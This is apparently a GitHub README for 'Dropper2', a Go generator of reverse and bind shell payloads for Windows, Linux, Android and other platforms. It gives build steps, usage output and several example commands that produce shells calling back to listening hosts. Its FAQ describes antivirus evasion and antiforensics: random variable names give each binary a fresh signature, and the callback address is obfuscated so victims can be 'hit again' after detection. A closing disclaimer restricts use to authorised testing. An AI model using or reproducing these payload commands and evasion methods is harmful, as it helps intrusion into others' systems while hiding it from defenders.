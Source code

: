 Dropper2 (now with more R@nd0m!)

As with the initial release of <a href="https://github.com/im4x5yn74x/dropper">Dropper</a>, navigate to your <a href="https://github.com/golang/go/wiki/SettingGOPATH">GOPATH</a> on your system and clone the repo using the `go get` command.

<code>go get github.com/im4x5yn74x/dropper2</code>

Navigate to the new `github.com/im4x5yn74x/dropper2` folder and build Dropper2 to begin generating payloads.

<code>go build dropper2.go</code><br>

<code>./dropper2 -h</code>
<pre>
Usage of ./dropper2:
  -a string
	Architecture: 386, amd64, amd64p32, arm, arm64, ppc64, ppc64le, mips, mipsle, mips64, mips64le, s390x, sparc64
  -l string
	Listening host: <listening ip:port>
  -o string
	Output filename: <anything goes>
  -p string
	Operating System: windows, linux, freebsd, nacl, netbsd, openbsd, plan9, solaris, dragonfly, darwin, android
  -s string
	Shell type: C:\Windows\System32\cmd.exe, C:\Windows\SYSWOW64\WindowsPowerShell\v1.0\powershell.exe, /bin/sh, /system/bin/sh, /bin/busybox, bypass
  -t string
	Payload type: bind/reverse
</pre>
 
<h3>Payload generation examples:</h3>

<code>./dropper2 -a 386 -o bypassturkey -p windows -l 192.168.1.112:446 -s bypass -t reverse</code>

<code>./dropper2 -a arm -o lateNightTacos -p linux -l 10.0.0.25:4433 -s /bin/busybox -t reverse</code>

<code>./dropper2 -a amd64 -o browngravy -p windows -l 0.0.0.0:9090 -s powershell -t bind</code>

<code>./dropper2 -a mips64 -o cheeseburgers -p linux -l 0.0.0.0:31337 -s /bin/busybox -t bind</code>

<code>./dropper2 -a arm -o trapspot -p android -l 25.128.34.6:443 -s /system/bin/sh -t reverse </code>*<h5>(*NOTE: Only works on <a href="https://termux.com/">Termux</a> for Android)</h5>

<h3>FAQ</h3>
<li>What's New with Dropper2?</li>
<ul>- Dropper2 now supports variable randomization within each payload generated.</ul>
<ul>- Dropper2 also uses obfuscation to disguise both the listening host and port as well as built-in Golang artifacts such as where the payload file is written to be compiled.</ul>
<li>What's the reasons for these changes?</li>
<ul>- Antivirus evasion and antiforensics.</ul>
<li>but why tho'...?</li>
<ul>- During forensic analysis of the binaries generated by Dropper 1.0, my team and I discovered artifacts stored within each Golang binary compiled for every platform. These artifacts included certain string values such as your listening IP address and the port used to connect, your shell type provided (/bin/sh, cmd.exe, etc...) as well as the path to the Golang file you compiled. This information could not only inform forensics engineers where you compiled your tool (a.k.a. your GOPATH most likely), but through the use string analysis, they could easily infer as to what the binary's true intentions may be. (10.0.0.100:1337 /bin/sh; Hmmm, I wonder what it could be doing...)

Realistically, these changes need to be implemented in not only Dropper but within Golang itself, especially for penetration testers and privacy conscious individuals who don't want or can't afford to share intimate information regarding their software. That being said, the use of obfuscation came into the mix to help solve the same problem.</ul>
<li>Ok so what do you mean by "R@nd0m", exactly?</li>
<ul>- Again, while reviewing the previous payloads generated by Dropper 1.0, I had noticed the "Windows" binaries that were generated had the tendency of having the same signature no matter how many times I would recreate the binary. Even changing the name of the payload didn't seem to help the matter much either. Thus something needed to be done during the compilation process. The solution came when I had reviewed different randomization algorithms on the <a href="https://play.golang.org/p/KcuJ_2c_NDj">Go Playground</a>, leading me to choose one that could produce the quickest random value while using the most entropy. The use of this function within Dropper2 now allows each variable written into the generated payloads to be a unique value and effectivly creating a random binary signature everytime; thus allowing an attacker to drop the same payload on a victim's system while appearing brand new each time in the eyes of the antivirus.</ul>
<li>Alright, but is it fool-proof; meaning could it still get caught by antivirus?</li>
<ul>- The short answer is: It depends on the current security policies in place on any given system. In a situation where the compromised system has certain group policy rules such as blocking a user from downloading `unknown` binaries from the internet, then the attacker needs to get a bit more creative. Dropper 1 & 2 binaries were never intended to be the "one payload to defeat them all", but to simply generate reverse and bind shell payloads for multiple platforms and hide as much evidence possible regarding their actual intended purpose.

I understand that wasn't exactly the shortest answer, however any security professional knows there are multiple ways to bypass system policy restrictions and industry standard antivirus. For everyone else who doesn't know; at least you get a unique binary each time that you can try to hit them again with in the event you get caught the first time. Again, use your own professional judgment before running random binarys on targeted systems.</ul>
<li>Ok M4x, we're following you. So what about the future of Dropper? Anything up and coming we should know about?</li>
<ul>- Of course there is. It's an active project I've been adding to anytime I either learn cool tricks to implement or I learn more efficiant ways to write my code. Some teasers for future ideas include:</ul>
<ul>* TLS/SSL support<br>
* UDP and IPv6 support<br>
* Blah-blah-blah...(What kind of hacker would I be if I told you all of my secret plans?)</ul>

<li>Are you still learning Golang?</li>
<ul>- Aren't we all?</ul>
<li>Do you have a disclaimer for us?</li>
<ul>- YOU BET I DO!</ul>

<h3>Disclaimer</h3>
This tool is intended for Penetration Testers, Security Researchers and Red Teamers alike. <b>DO NOT USE</b> this tool for ILLEGAL purposes or <b>WITHOUT</b> the <b><u>CONSENT</u></b> from the parties involved while agreed upon by LEGAL DOCUMENTATION or PERMISSIVE ACCESS for <u>security consultation</u> or <u>research purposes.</u> I, hereby relinquish <b><u>ALL</u></b> responsiblity for any illegal use of this tool or <b><u>ANY</u></b> binary payloads subsequently generated by the tool as discribed. <b>You have been warned.</b>
